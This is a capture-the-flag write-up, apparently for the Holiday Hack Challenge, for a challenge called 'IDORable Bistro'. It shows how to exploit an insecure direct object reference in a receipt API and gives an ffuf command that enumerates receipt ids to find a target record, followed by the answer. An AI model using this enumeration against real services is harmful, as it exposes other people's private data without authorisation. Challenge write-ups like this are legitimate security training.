





# IDORable Bistro



**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [IDORable Bistro](https://hhc25-wetty-prod.holidayhackchallenge.com/?&challenge=termCurlyImaps){:target="_blank" rel="noopener"}<br/>
**Area**: Sasabune<br/> 
**In-game avatar**: Josh Wright


## Hints
??? tip "QR Codes"
    I have been seeing a lot of receipts lying around with some kind of QR code on them. I am pretty sure they are for Duke Dosis's Holiday Bistro. Interesting...see you if you can find one and see what they are all about...
??? tip "Will the Real ID Please..."
    Sometimes...developers put in a lot of effort to anonymyze information by using randomly generated identifiers...but...there are also times where the "real" ID is used in a separate Network request...
??? tip "What's For Lunch?"
    I had tried to scan one of the QR codes and it took me to somebody's meal receipt! I am afraid somebody could look up anyone's meal if they have the correct ID...in the correct place.


### Item
We get a receipt outside the Sarabune bistro.<br>


## Objective

!!! question "Request"
    Josh has a tasty IDOR treat for you—stop by Sasabune for a bite of vulnerability. <br/>
    What is the name of the gnome?

??? quote "Josh Wright"
    I need your help with something urgent. <br/>

    A gnome came through Sasabune today, poorly disguising itself as human - apparently asking for frozen sushi, which is almost as terrible as that fusion disaster I had to endure that one time.<br/>

    Based on my previous work finding IDOR bugs in restaurant payment systems, I suspect we can exploit a similar vulnerability here.<br/>

    I was...[at a talk](https://www.youtube.com/watch?v=hzrhtHrhwno) recently...and learned some interesting things about some of these payment systems. <br/> Let's use that receipt to dig deeper and unmask this gnome's true identity.

## High-Level Steps

1. **Discover** – Identify receipt endpoints from the QR code.
2. **Test** – Enumerate receipt IDs to confirm an IDOR vulnerability.
3. **Extract** – Retrieve the target receipt and identify the gnome.



## Solution
Scanning the QR code has below<br>
```
https://its-idorable.holidayhackchallenge.com/receipt/i9j0k1l2
```


Browsing the above URL reveals the below API<br/>
```
https://its-idorable.holidayhackchallenge.com/api/receipt?id=103
```

Just going to the API URL shows the API output in JSON format.<br/>


Changing to a different receipt ID shows different output which proves the API has IDOR vulnerability. <br/>
```
https://its-idorable.holidayhackchallenge.com/api/receipt?id=104
```


Trying to fuzz the API url with the receipt id from 1 - 200 for “frozen” in the API response and we get a hit.<br/>

Below fuzzes the URL id from 1 to 200 looking for "frozen" in the part of response (because the hint notes that the gnome asked for the "frozen" sushi).<br/>
```
seq 1 200 | ffuf -w - -u "https://its-idorable.holidayhackchallenge.com/api/receipt?id=FUZZ" -mr "frozen"
```

We get a hit for receipt id 139.<br/>


Manually looking at the API response for receipt id 139.<br/>
```
https://its-idorable.holidayhackchallenge.com/api/receipt?id=139
```


We have the name : Bartholomew Quibblefrost


!!! success "Answer"
```
Bartholomew Quibblefrost
```
## Response
!!! quote "Josh Wright"
    Excellent work! <br/>
    You've demonstrated textbook penetration testing skills across every challenge - your discipline and methodology are impeccable!.<br/>
